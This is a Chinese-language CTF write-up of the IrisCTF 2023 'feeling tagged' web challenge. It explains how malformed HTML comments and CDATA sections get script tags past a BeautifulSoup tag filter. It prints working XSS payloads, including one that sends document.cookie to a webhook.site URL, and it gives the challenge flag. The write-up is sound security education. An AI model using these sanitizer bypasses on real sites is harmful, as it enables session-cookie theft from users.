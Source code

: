 ```python
    contents = request.form.get('contents', "").encode()
    
    return redirect("/page?contents=" + base64.urlsafe_b64encode(contents).decode())

@app.route("/page")
def page():
    contents = base64.urlsafe_b64decode(request.args.get('contents', '')).decode()
    
    tree = BeautifulSoup(contents)
    for element in tree.find_all():
        if element.name not in SAFE_TAGS or len(element.attrs) > 0:
            return "This HTML looks sus."

    return f"<!DOCTYPE html><html><body>{str(tree)}</body></html>"
```
:::

可以看到，這是一個可以塞入 html 的網頁，但是在伺服器端有限制標籤只能塞 `<i>`, `<b>`, `<p>`, `<br>` 這四種，且在 Dockerfile 中可看到檢查用的函式庫 beautifulsoup 是最新版本，推測不是 cve 漏洞題

此外從題目敘述可推知這是一題前端題，且需要偷 cookie 資訊

以下參考[別人的解法](https://github.com/Seraphin-/ctf/blob/master/irisctf2023/feelingtagged.md)

在 [HTML5 spec](https://html.spec.whatwg.org/multipage/syntax.html#comments) 中，comment `<!-- -->` 中間可以添加文字，但是不能是 `>` 開頭，否則會被當作是一個有效的 tag block，但是經實測在 beautifulsoup 的分析中並沒有考慮到這種狀況，因此造成處理上的差異

因此考慮以下 payload

```htmlembedded
<!--><script>alert(1);</script><-->
```

在瀏覽器上會解析出 script 標籤，但是在 beautifulsoup 中會檢測不出來

因此可以透過以下 payload 將 cookie 偷出來

```htmlembedded
<!--><script>fetch('https://webhook.site/df032aab-0719-432e-a649-ef2618eb8f16/?cookie='+document.cookie);</script><-->
```

以下是另一個別人的解法
![](https://i.imgur.com/QCIguX8.png)

在 xml 中有一個叫做 cdata 的東西，而一般瀏覽器雖然是吃 html 但其實也會處理 cdata 的部分 (html5 spec 有定義)，但是在 beautifulsoup 的預設模式 `http.parser` 並不會處理此部分反而會直接省略 (但 `lxml` 可正常解析，參考 [reference](https://groups.google.com/g/beautifulsoup/c/2yMjUYTIaiQ?pli=1))，造成處理上的差異

因此用上面類似，只要使用 cdata 包起來即可 (注意 script 前有一個 `>`，避免瀏覽器解析上的問題)

```htmlembedded
<![CDATA[><script>alert(1);</script>]]>
```

偷 cookie 部分不再贅述

`irisctf{security_by_option}`